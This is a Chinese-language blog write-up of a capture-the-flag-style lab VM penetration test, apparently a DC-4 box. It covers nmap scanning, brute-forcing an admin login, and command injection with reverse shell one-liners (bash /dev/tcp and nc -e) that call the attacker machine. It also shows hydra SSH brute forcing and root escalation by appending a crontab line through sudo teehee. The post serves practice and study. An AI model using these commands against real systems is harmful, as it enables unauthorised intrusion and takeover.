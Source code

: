 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      靶机渗透（一）-持续更新               # 标题 
subtitle:   实战靶机练习
date:       2020-04-13              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


0x00：前言：
    在多次思考中，很清楚的认识到了自己实战能力的缺乏，以及练习量不足导致对漏洞理解不够入脑，为此开始以靶机渗透为核心的一段练习，为了练习渗透测试实战，近一段时间都是以靶机渗透为主来加强训练，在每次靶机渗透中，以分析总结为重：接下来就是多个靶机的实战后复盘：
    
0x01：上战场：
**环境说明：**
- 攻击机：kali   ip：192.168.58.146
- 靶机：Ubuntu   ip：192.168.58.147

1、探明灯准备 ：祖传开头，nmap扫描存活主机以及端口信息 ``` nmap -sS -T4 192.168.58.*```  
![](https://github.com/z0L1n/pic/blob/master/dc4/1.png?raw=true)  
此时发现目标，探测详细服务信息以及主机信息：```nmap -A 192.168.58.147```  
![](https://github.com/z0L1n/pic/blob/master/dc4/2.png?raw=true)   
ssh以及80端口开放，首先去查看web服务，查看页面：  
![](https://github.com/z0L1n/pic/blob/master/dc4/3.png?raw=true)  
OH,登陆页面，先测试一下我们的万能密码和sql注入，emmm一阵子后发现，发生错误都会重定向回到该页面，上神器burp看看，测试用户admin和test，发现admin
用户的密码在top500中，此时可以登陆后页面如下：
![](https://github.com/z0L1n/pic/blob/master/dc4/4.png?raw=true)  
![](https://github.com/z0L1n/pic/blob/master/dc4/5.png?raw=true)  
习惯性打开后台页面源码看一看，发现每个选项对应一个命令，而且是在前端显示，burp抓包获取请求看看情况：
![](https://github.com/z0L1n/pic/blob/master/dc4/6.png?raw=true)  
其中radio的值就是linux下的命令，这里可以命令执行，直接测试反弹shell：
```Bash -i <& /dev/tcp/192.168.58.146/4444 0>&1 ```嘻嘻这里是不行的这个，换```nc 192.168.58.146 4444 -i -e /bin/bash```,成功反弹shell，并查看一下基本信息：  
![](https://github.com/z0L1n/pic/blob/master/dc4/7.png?raw=true)   
接下来就到处游荡，查查用户信息以及配置文件等，在/etc/passwd文件查看到/home目录下的用户便去看看有没什么信息：  
![](https://github.com/z0L1n/pic/blob/master/dc4/8.png?raw=true)  
发现旧密码备份，接下来可能可以去登陆到jim用户，日常使用hydra去爆破一下ssh尝试，花了挺长时间才跑出来的，然后顺便介绍一下hydra：
```
hydra支持多种协议，已经集成在kali中，一般用来爆破用户名密码
syntax: hydra [params] [service@server:[port/opt]
常用参数：
-l：指定单个用户名，如果是多个用户名则使用-L，参数为用户名文件的绝对路径（一般情况下）
-P:指定多个密码，使用密码文件，参数为文件路径；使用-p时为指定单个密码
-t:指定线程
-v:显示详细信息
-f:爆破成功一个即停止
ps：  
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh  
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV  
hydra -l 用户名 -P 密码字典 ip smb  
```
![](https://github.com/z0L1n/pic/blob/master/dc4/9.png?raw=true)  
好了，密码爆破出来，我们就直接连接吧，接下来面临的应该就是提权操作了！！！
![](https://github.com/z0L1n/pic/blob/master/dc4/11.png?raw=true)  
登陆进去提示有mail，好此时去看看，用find命令可以查找到该文件路径，然后进去看看有什么吧：
![](https://github.com/z0L1n/pic/blob/master/dc4/12.png?raw=true)  
拿到另外一个用户的密码，来个横向移动（捂脸），一顿操作发下该用户也没什么东西，我们还是需要提权，这里使用到crontab提权赋予/bin/sh  "root"权限，再深入一下,这里通过sudo -l发现了teehee用户无需密码可以拥有root权限：
```
cron jobs计划任务，通过/etc/crontab文件设定系统定期执行的任务，完成我们的计划任务；  
syntax： * * * * * username  /path/to/command arg1 （星号分别为：minute hour dayofmonth month dayofweek）  
例子： echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab --在/etc/crontab中添加一个任务，赋予/bin/sh 4777权限  
ps： 1 * * * * printf "" > /var/log/apache/error_log  --每小时打印一次错误日志  
```
同样适用teehee用户权限添加一个用户也是可以提权的：  
![](https://github.com/z0L1n/pic/blob/master/dc4/13.png?raw=true)    
![](https://github.com/z0L1n/pic/blob/master/dc4/14.png?raw=true)    
到此就完成了root用户提权了，总结一下下就是在渗透中，提权的方式还是需要我们通过大量的信息收集才能顺利，它占据了非常重要的作用，在今后需要更加的训练自己的信息收集能力。


